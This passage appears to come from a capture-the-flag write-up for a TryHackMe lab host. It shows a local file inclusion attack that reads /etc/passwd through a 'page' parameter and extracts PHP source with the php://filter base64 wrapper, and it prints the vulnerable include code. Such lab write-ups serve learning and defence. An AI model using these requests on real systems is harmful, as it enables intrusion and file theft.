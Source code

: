 The dev site as a link to a PHP script: http://dev.team.thm/script.php?page=teamshare.php 

The page parameter look like it could be used for [LFI](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/).   I tried reading the [passwd file](http://dev.team.thm/script.php?page=/etc/passwd) and it worked. 

![/etc/passwd](/assets/images/2021/03/passwdFile.png "/etc/passwd")

I then looked at the code of the `script.php` file to see if there was anything interesting in it. Since the PHP code gets executed, to view it we need to use the PHP filters to get the content as base64:   http://dev.team.thm/script.php?page=php://filter/convert.base64-encode/resource=script.php

This gave me a base64 string that I could decode to view the code. 

```php
echo -n "base64 string" | base64 -d

<?php   
$file = $_GET['page'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("teamshare.php");
   }
?>
```
